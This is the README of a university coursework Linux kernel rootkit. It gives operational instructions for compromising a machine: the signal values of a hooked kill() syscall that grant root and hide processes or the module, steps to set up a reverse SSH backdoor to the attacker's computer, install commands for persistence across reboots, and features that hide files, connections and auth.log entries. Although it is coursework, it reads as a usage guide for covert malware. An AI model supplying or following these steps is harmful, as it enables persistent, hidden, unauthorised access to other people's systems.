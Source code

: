 # S3CW
Repository for Systems and Software Security unit coursework. Included report details the implementation of our linux kernel rootkit, as well as some evaluation and improvements. Mark achieved for this unit - 64% (2:1)

## Interacting with the Rootkit

Some commands are accessible by using the system call `kill(pid_t pid, int, sig)`. Running this call with the following `sig` values will use our overridden method:

| `sig` value | Result                                  |
| ----------- | --------------------------------------- |
| 32          | Gain root access                        |
| 33          | Hide the rootkit module from the list   |
| 34          | Unhide the rootkit module from the list |
| 35          | Hide any programs with a PID of `pid`   |



## Building Instructions

### <u>Backdoor Configuration Instructions</u>
Some set up is needed on the computer you wish to use to access the comprimised machine remotely, and without the need for their password. It is highly recomended that you use a Linux based machine to access the comprimised computer, as our method is not verified on Windows or MacOS.

***Turn on SSH port forwarding***

For own computer connecting to rootkit back door:
1. Go to your router settings via a browser (address is typically 192.168.0.1, but your router should show somewhere how to get to the router configuration page).
2. Find your local ip address by using `ifconfig` then comparing the **inet** addresses until you find one that appears on your router settings site.
3. Using `ifconfig`, find your **subnet mask**, and **Default gateway** corresponding to the ip address you just found. Default gateway is typically your ip address with the last section being 1 (i.e. x.x.x.1, where 0 <= x <= 255)
3. We need to ensure our own pc has a static IP on the network to make sure port forwarding always works, and the ssh backdoor tunnel can always be made:

***Linux***
1. Go to **Settings**->**Network**
2. Click on the cog next to the network device that you use to connect to your router (Ethernet or Wifi)
3. Go to the **IPv4** tab, and in **IPv4 Method** select **Manual**. This will give us a static IP
4. Type in the **ip address**, **subnet mask** and **gateway** you found earlier. In the **DNS** field, we can use the Google Public DNS which has address `8.8.8.8`
5. Click **apply**

***Now we have a static IP set, we need to add port forwarding rule***
1. Goto your routers settings
2. Add a port forwarding rule (usually in security or firewall) for port 22 and your local static ip address


### <u>Configuration before installing rootkit</u>
1. You need to generate an ssh rsa keypair. To do this run `ssh-keygen` and hit the *enter* key every time you are prompted for input. If you already have `~/.ssh/id_rsa` and `~/.ssh/id_rsa.pub`, make sure that your user has read write access (can check this through `ls -l ~/.ssh`). If your user doesn't have access (i.e. it says `root` instead), then remove these current keys (may need to do `sudo rm...`) and then run `ssh-keygen` **without `sudo`**.
2. Make sure python is installed, and run `python backdoor_config.py` to set up file with your username, public ssh rsa key, and public ip address. This will be used by the rootkit to set up an ssh backdoor so you can connect to the infected machine. 
3. Move the `backdoor_config.txt` file into the `virus` folder.
4. ONLY MOVE THE **rootkit** FOLDER TO THE MACHINE YOU WANT TO INFECT


### <u>Booting Vagrant</u>
In order to showcase our rootkit, we will be using a Vagrant VM running Ubuntu 12.04. However, any Linux machine (VM or on *bare metal*) with an internet connection and running Ubunutu 12.04 will work. If you use a VM make sure in its network settings the adapter is of type **bridged adapter**.
1. `vagrant up` in folder containing vagrant file
2. If asked which adapter to bridge too when booting vagrant, select the adapter you use to connect to the internet (can find this out using `ifconfig` and seing which one has your static ip address).
3. Move rootkit folder to 'guest' folder (in same directory as vagrant file is in)
4. `vagrant ssh` 

### <u>Setting up rootkit with loading on boot</u>
The rootkit will make itself boot by editing `/modules/etc`, but you need to follow these steps first:
1. ``` sudo apt-get install linux-headers-`uname -r` ```
2. `sudo mkdir /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
3. `sudo cp /vagrant/* /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit -r`
4. `cd /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
5. `sudo make all`
6. `sudo depmod` which resets relevant systems to allow our module to be loaded on boot
7. `sudo insmod rootkit.ko`
8. To establish backdoor, go to `cd virus` and then run `./backdoor`. You will need to enter your home computer's password for ssh key exchange
Warning: there is no way to remove the rootkit after this - if you want to recompile then either use signals to disable some functionality or reset your box.

### <u>Using backdoor</u>
1. Whilst you have access to the system you are infecting, run the command `whoami` and make a note of the result that is produced. We will need this to ssh into the system
2. We have set up a reverse ssh tunnel, meaning that whenever our router sees we are sending a request to `localhost` on port `7000` it will divert this to port `22` of our infected system
3. To access the infected system, simply type the command `ssh targetUser@localhost -p 7000 -i ~/.ssh/id_rsa` and you will have access to their system without the need for their password

### <u>Showing Rootkit features</u>
1. To see that our rootkit is not in modules list, run `sudo lsmod` and inspect the list
2. To see that our rootkit and virus files are hidden, go to `cd /lib/modules/3.2.0-126-generic/kernel/drivers/`. Running `ls`, `l`, `dir` will yield that `rootkit/` cannot be seen, as well as with `ls rootkit` etc. once you have `cd rootkit` the same can be seen for `virus` file with out payload.
3. To see that backdoor connections are hidden, we can run any networking command: `netstat`, `who`, `last`, `w`, `ss` and our ip address or any ssh connections will be hidden
4. opening the `/var/log/auth.log` file will not show evidence of our ssh connection once the rootkit has been loaded
5. To demonstrate root access, our payload program calls the hooked `kill` syscall when making a bash script. Running `./payload` or `./payload root` will give us a root terminal. This can be confirmed by running `whoami` 
6. In order to demonstrate program hiding we have to options. First by running our `./payload` script in our `/rootkit/virus/` folder wil give us a bash terminal. Whilst running `ps` or `top` will show our payload process, if we ssh in again to the compromised VM and run `ps` or `top` from this terminal, we see that it is infact hidden. Second, we can find a process ID using `ps` or `top`, and then execute `./payload hidepid $PID` and this will hide any process.
